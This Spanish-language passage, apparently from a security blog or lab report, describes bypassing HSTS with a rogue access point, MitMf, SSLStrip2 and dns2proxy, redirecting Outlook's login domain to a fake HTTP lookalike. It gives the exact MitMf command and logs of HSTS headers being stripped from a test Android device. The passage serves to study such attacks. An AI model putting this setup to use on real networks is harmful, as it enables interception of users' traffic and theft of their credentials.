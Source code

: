 Al día de hoy la mayoría de los sitios de gran uso, como pueden ser Paypal, Gmail, Facebook, Twitter, Outlook, etcétera, utilizan el header HSTS para que los navegadores que lo soportan, que a día de hoy son todos, sepan que cuando el usuario introduzca el dominio en la barra de direcciones sin especificar el protocolo, se debe acceder siempre a través de HTTPS. De este modo, nunca se realizará una petición HTTP a un dominio que use HSTS y evitará que un atacante en medio puedo hacer un esquema de SSLStrip. Es por esto, si bien SSLStrip reemplaza por http://, el navegador vuelve a forzarlo a https:// gracias a este header, por lo que nuestra pruebas con esta herramienta no fueron para nada interesantes.

Eliminando HSTS con SSLStrip2 y dns2proxy

Para resolver este problema que tenemos con el header HSTS, vamos a utilizar la nueva versión de SSLStrip, llamada SSLStrip2 o SSLStrip+, en conjunto con dns2proxy. Estos nos permitirán quitar todo header HSTS que se pueda aparecer en los headers de las conexiones (SSLStrip2) y nos redireccionarán a un dominio falso que se haga pasar por el verdadero pero que funcione sobre HTTP para poder capturar el tráfico (dns2proxy). Para realizar esto configuramos que el domino outlook.live.com que nos permite ingresar a nuestras cuentas de outlook o hotmail personales, sea redirigido a weboutlook.live.com. 

Pusimos a correr nuestro rogue AP, desactivamos el dns que nos provee dnsmasq, y luego pusimos a correr MitMf con las opciones de hsts (SSLStrip2) y dns (dns2proxy) de la siguiente manera:

python mitmf.py -i wlan0 --hsts --dns

Luego, conectamos nuestro dispositivo de prueba al AP e intentamos acceder a outlook.com y estos fue lo que logueo mitmf:

2017-11-25 17:29:20 10.0.0.168 [type:Chrome Mobile-62 os:Android] outlook.com
2017-11-25 17:29:21 10.0.0.168 [DNS] Resolving 'wwww.outlook.com' to 'www.outlook.com' for HSTS bypass
2017-11-25 17:29:21 10.0.0.168 [type:Chrome Mobile-62 os:Android] www.outlook.com
2017-11-25 17:29:21 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header
2017-11-25 17:29:21 10.0.0.168 [DNS] Resolving 'weboutlook.live.com' to 'outlook.live.com' for HSTS bypass
2017-11-25 17:29:21 10.0.0.168 [type:Chrome Mobile-62 os:Android] outlook.live.com
2017-11-25 17:29:22 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header
2017-11-25 17:29:22 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header

